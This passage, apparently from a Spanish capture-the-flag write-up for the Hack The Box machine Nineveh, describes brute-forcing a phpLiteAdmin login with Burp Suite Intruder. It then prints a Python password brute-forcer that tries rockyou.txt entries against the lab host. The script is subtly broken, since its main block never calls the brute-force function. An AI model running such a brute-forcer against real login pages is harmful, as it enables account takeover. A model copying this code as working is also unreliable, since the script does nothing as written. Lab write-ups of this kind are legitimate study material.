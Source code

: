 ### Ataque de tipo intruder con burpsuite para el panel en el puerto 443 {-}

Para el panel de authentification del **phpLiteAdmin**, utilizamos la misma tecnica que para el panel de authentification del puerto 80 (Burpsuite).
De esta manera tambien encontramos la contraseña y nos podemos conectar a la base de datos.

### Bruteforcear la contraseña con python {-}

Este seria la manera de bruteforcear la contraseña con python. Este Script tambien nos viene del compañero s4dbrd.

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from pwn import *

# Variables Globales
login_url = 'https://nineveh.htb/db/index.php'


f = open("rockyou.txt", "r")

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def bruteForce():
 
    s = requests.Session()

    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'password': password.rstrip(),
            'login': "Log+In",
            'proc_login': "true"
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data, verify=False)
        
        if 'Incorrect password.' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
```